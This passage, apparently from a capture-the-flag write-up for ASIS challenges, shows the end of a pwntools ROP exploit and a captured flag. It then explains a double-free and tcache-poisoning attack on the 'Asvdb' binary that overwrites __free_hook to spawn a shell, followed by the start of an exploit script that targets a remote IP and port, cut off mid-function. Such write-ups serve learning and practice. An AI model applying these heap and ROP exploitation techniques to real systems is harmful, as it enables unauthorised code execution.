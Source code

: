 ```python=
else:
    # or enter a file descriptor, probably 6 to 10, here may require some brute force
    fd = int(sys.argv[1])
payload = 'ASIS{N0T_R34LLY_4_FL4G}\x00'.ljust(0x20, 'a')
payload += flat([buf-0x400, pop_rdi, 0, pop_rsi_r15, buf-0x400, 0, pop_rdx, 0x400, read_plt, pop_rdi, fd, pop_rsi_r15, buf-0x400, 0, pop_rdx, 0x400, write_plt, main_exit])
r.sendline(payload)

time.sleep(1)
payload = 'TRANSMISSION_OVER\x00'.ljust(0x28, 'a')
payload += flat([one_gadget])
r.sendline(payload)
r.interactive()
```

flag : `ASIS{2655b2e6fa6861246c9423c75d76c0e3}`

### Asvdb

FWEASD

In this chal we can 
1. add bug, which will allocate a bug struct
2. free bug, which will free(title) -> free(description) -> free(bug) -> clear pointer to bug
3. show bug, which will print all the content in a bug struct
```cpp=
// malloc(0x20)
struct bug{
    int year;
    int id;
    char *title = malloc(0x40);
    char *description = malloc(size);
    int severity;
};
```
we can input the `size`, if it smaller than 1 or it is bigger than 0xff, the `bug` will still be allocate, however the `description` pointer won't be overwrite. Then we can call free to trigger double free, thus we can do fast bin dup attack.
Additionally, this is deployed in Ubuntu18.04, which use tcache, so we can simply malloc to arbitary place. I malloc to `__free_hook` and overwrite it with a buf address, and the buf's content is `"/bin/sh\x00"`, then trigger free to get shell.

Exploit script : 
```python=
from pwn import *

host = '37.139.17.37'
port = 1337

context.arch = 'amd64'
r = remote(host, port)

def add(year, id, title, size, description, severity):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.sendline(str(year))
    r.recvuntil(':')
    r.sendline(str(id))
    r.recvuntil(':')
    if len(title) == 63:
        r.send(title)
    else:
        r.sendline(title)
    r.recvuntil(':')
```